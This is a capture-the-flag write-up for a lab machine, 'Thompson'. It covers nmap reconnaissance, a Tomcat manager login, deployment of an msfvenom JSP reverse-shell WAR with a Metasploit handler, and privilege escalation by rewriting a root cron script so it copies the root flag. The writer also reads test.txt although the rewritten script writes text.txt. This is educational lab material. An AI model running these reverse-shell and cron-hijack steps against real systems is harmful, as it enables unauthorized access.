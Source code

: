 # Thompson

## Description

read user.txt and root.txt

## Challenge

`nmap -sV -sC -A 10.10.226.68`
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (EdDSA)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.5
```

1. user.txt

Check http://10.10.226.68:8080 -> `Manager App` -> `admin:admin` ( Failed =) )

![alt text](image.png)

Press "Cancel"

![alt text](image-1.png)

Check user/password from this page -> Success!

![alt text](image-2.png)

Create shell

`msfvenom -p java/jsp_shell_reverse_tcp lhost=<attacker_ip> lport=4444 -f war -o shell.war`

Deploy this shell and create handler in msfconsole

`msfconsole -q`
```
This copy of metasploit-framework is more than two weeks old.
 Consider running 'msfupdate' to update to the latest version.
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload java/jsp_shell_reverse_tcp
payload => java/jsp_shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.10.245.179
lhost => 10.10.245.179
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.245.179:4444
```

After deploying click on this page and you will get shell
![alt text](image-3.png)

```
[*] Command shell session 1 opened (10.10.245.179:4444 -> 10.10.226.68:36808) at 2024-04-04 03:19:04 +0100

whoami
tomcat
ls
bin
boot
dev
etc
home
initrd.img
initrd.img.old
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
cd home
ls
jack
cd jack
ls
id.sh
test.txt
user.txt
cat user.txt
```

2. root.txt

[Optionally] Update shell

```
SHELL=/bin/bash script -q /dev/null
tomcat@ubuntu:/home/jack$
```

Check cron

`cat /etc/crontab`
```
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *	* * *	root	cd /home/jack && bash id.sh
#
```

`cat id.sh`
```
#!/bin/bash
id > test.txt
cat test.txt
uid=0(root) gid=0(root) groups=0(root)
```
Script executed by root

Let’s modify the script so that it reads the root flag :

```
echo "
#!/bin/bash 
cat /root/root.txt > text.txt" > id.sh
...
tomcat@ubuntu:/home/jack$ cat id.sh
cat id.sh


#!/bin/bash 

cat /root/root.txt > text.txt

```

Wait a little bit

```
cat test.txt  
[REDACTED]
```
